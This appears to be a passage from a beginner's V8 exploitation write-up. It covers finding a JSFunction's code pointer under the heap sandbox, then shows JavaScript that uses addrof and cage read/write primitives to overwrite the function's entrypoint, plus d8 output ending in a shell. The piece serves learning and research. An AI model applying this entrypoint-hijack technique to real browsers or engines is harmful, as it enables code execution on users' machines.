 However, an unexpected situation happened as I couldn't find the `code` field inside the function. Additionally, in my build, the `code` is located in a different region from the heap cage, as shown bellow:

![](https://i.imgur.com/R9walaa.png)

![](https://i.imgur.com/VGuRnkj.png)

This situation is different from all the writeups I read, where the `code` is in the same region as heap object and they can easily get the `code` at `function+0x10` or `function+0x8`.

I believe that if `%DebugPrint` can dump fields, there must be a way to calculate `code`. So, I followed the source code of `%DebugPrint` and ended up [here](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/diagnostics/objects-printer.cc;drc=10c26d0d230900f91d239f2fe0b731b054127e89;l=2179). There, you can see that the `code` field is treated differently from fields like `shared_info` and `name` as a mysterious `isolate` is passed to calculate `code`:

![](https://i.imgur.com/hUs5VkN.png)

Afterall, I couldn't understand much of the code. Maybe it's due to the newly introduced [heap sandbox](https://youtu.be/5otAw81AHQ0?si=hGVg5ZTcCSl0Hejc) from four months ago? Since I'm just starting to learn V8 exploitation, I don't want things getting too complicated, so I tried my luck by disabling any suspicious build arguments and rebuilding V8 to see if the issue still happen. And after disabling `v8_enable_memory_corruption_api`, the `code` go back to heap region and I can find it at `function + 12`

```js
let func_addr = addrof(foo);
let code_addr = cage_read(func_addr - 1n + 12n);
let entrypoint_addr = code_addr - 1n + 20n;
let entrypoint = cage_read(entrypoint_addr);
print("[+] func_addr @ " + hex(func_addr));
print("[+] code_addr @ " + hex(code_addr));
print("[+] entrypoint_addr @ " + hex(entrypoint_addr));
print("[+] old entrypoint @ " + hex(entrypoint));
cage_write(entrypoint_addr, entrypoint + 0x6fn);
foo()
```

```sh
$ ~/v8/out.gn/x64.release/d8 ./oob/pwn.js
[+] float_arr_map @ 0x725001cce3d
[+] obj_arr_map @ 0x725001ccebd
[+] fake_holder @ 0xc0459
[+] fake @ 0xc0479
[+] func_addr @ 0x1df84d
[+] code_addr @ 0x1d8a650020074d
[+] entrypoint_addr @ 0x1d8a6500200760
[+] old entrypoint @ 0x57cbc7101880
$ whoami 
daccong
```
## Mysterious crashses

I lost the images.
## Conclusion

😅😓🥵

